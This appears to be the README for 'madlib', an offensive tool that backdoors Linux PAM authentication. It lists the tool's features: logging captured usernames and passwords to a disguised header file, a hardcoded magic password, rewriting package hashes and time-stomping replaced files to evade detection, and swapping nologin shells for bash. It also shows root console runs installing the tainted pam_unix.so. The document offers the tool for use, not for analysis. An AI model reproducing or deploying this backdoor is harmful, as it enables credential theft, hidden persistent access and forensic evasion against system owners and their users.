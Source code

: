 # madlib
## Features: 
* Logs username/passwords to file
* Obfuscates backdoor password with bcrypt (helps make reverse engineering more difficult and string dumps less effective)
* Automatically updates the DPKG MD5 hashes for all moved/replaced files
* Time stomps all moved/replaced files
* Replaces /bin/false, and /bin/nologin with /bin/bash (effectively making any user able to ssh in)
## Requirements:
* Requires Python3
* Root privileges needed
## Default Entries:
* Username/passwords by default are logged to /usr/include/type.h
* The default magic password is secretpassxd


## Usage

Manually Specifying PAM Version:

```
root@homebase /h/r/madlib# ./pam.py "1.3.0"
                    .___.__  ._____.
  _____ _____     __| _/|  | |__\_ |__
 /     \\__  \   / __ | |  | |  || __ \
|  Y Y  \/ __ \_/ /_/ | |  |_|  || \_\ \
|__|_|  (____  /\____ | |____/__||___  /
      \/     \/      \/              \/
    https://github.com/rek7/madlib/
[00:15:55] [+] PAM TAR Download Completed
[00:15:56] [+] Finishing Extracting
[00:15:56] [+] Added Backdoor
[00:16:16] [+] Finished Compiling Tainted Lib
[00:16:16] [+] Finished Successfully Compiled PAM File Moved to: '/lib/x86_64-linux-gnu/security/pam_unix.so'
```

Automatic Version Detection:

```
root@homebase /h/r/madlib# ./pam.py
                    .___.__  ._____.
  _____ _____     __| _/|  | |__\_ |__
 /     \\__  \   / __ | |  | |  || __ \
|  Y Y  \/ __ \_/ /_/ | |  |_|  || \_\ \
|__|_|  (____  /\____ | |____/__||___  /
      \/     \/      \/              \/
    https://github.com/rek7/madlib/
[00:17:55] [!] Detected PAM Version: '1.3.0'
[00:17:55] [+] PAM TAR Download Completed
[00:17:56] [+] Finishing Extracting
[00:17:56] [+] Added Backdoor
[00:18:16] [+] Finished Compiling Tainted Lib
[00:18:16] [+] Finished Successfully Compiled PAM File Moved to: '/lib/x86_64-linux-gnu/security/pam_unix.so'
```
